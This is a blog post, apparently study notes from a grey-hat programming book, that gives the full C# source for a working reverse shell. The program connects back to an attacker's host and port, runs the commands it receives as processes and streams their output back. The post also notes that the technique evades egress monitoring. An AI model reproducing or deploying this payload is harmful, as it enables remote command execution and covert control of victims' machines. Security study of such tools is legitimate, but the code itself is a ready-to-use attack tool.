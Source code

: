 ```yaml
---
title: Writing a Reverse Shell.
date: 2021-07-09 10:45:47 +07:00
categories: greyhatcch4
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Reverse Shell.
---
```



## We write a program which allows an attacker to start a listener and listen for a connection back from a victim host.

- We use the following classes:

> TCPClient - to create a new TCPClient object.

> Stream - to create a stream to read/wrtie to.

> StreamReader - read commands from incoming stream.

> Process and ProcessStartInfo(add/control certain options in Process()) - run commands from an attacker using a new process.

- We use the Split method to split commands into their respective filenames and arguments.

- Helps in evasion, egress traffic from a victim host is less scrutinized.

## Code:

```csharp
using System;
using System.IO;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Net;
using System.Net.Sockets;
using System.Diagnostics;

namespace Connect_Back_Payload
{
    public class MainClas
    {
        public static void Main(string[] args)
        {
            Console.WriteLine("[+] Welcome to your connect back shell\n- Enter a command on your attacker terminal to continue\n");
            // Convert only port from str to int
            using (TcpClient client = new TcpClient(args[0], int.Parse(args[1])))
            {
                //Read/Write to stream
                using (Stream stream = client.GetStream())
                {
                    //Read cmds from attacker
                    using (StreamReader rdr = new StreamReader(stream))
                    {
                        //Read from stream as long as attacker sends cmds
                        while (true)
                        {
                            string cmd = rdr.ReadLine();
                            // If empty
                            if (string.IsNullOrEmpty(cmd))
                            {
                                rdr.Close();
                                stream.Close();
                                client.Close();
                                return;
                            }
                            // Contains only whitespace
                            if (string.IsNullOrWhiteSpace(cmd))
                                continue;

                            //Split cmd into cmd and args
                            string[] split = cmd.Trim().Split(' ');
                            string filename = split.First();
                            string arg = string.Join(" ", split.Skip(1));

                            //Run cmd and return output
                            try
                            {
                                Process prc = new Process();
                                prc.StartInfo = new ProcessStartInfo();
                                prc.StartInfo.FileName = filename;
                                prc.StartInfo.Arguments = arg;
                                //Execute cmds in same shell context
                                prc.StartInfo.UseShellExecute = false;
                                prc.StartInfo.RedirectStandardOutput = true;
                                prc.Start();
                                //Copy stdout to stream and send to attacker
                                prc.StandardOutput.BaseStream.CopyTo(stream);
                                prc.WaitForExit();
                            }
                            catch
                            {
                                string error = "[+] Error running command: " + cmd + "\n";
                                byte[] errorBytes = Encoding.ASCII.GetBytes(error);
                                stream.Write(errorBytes, 0, errorBytes.Length);
                            }
                                
                            
                        }
                    }


                }

            }
        }
    }
}

```

## Output:

![Image](connect_back.png)
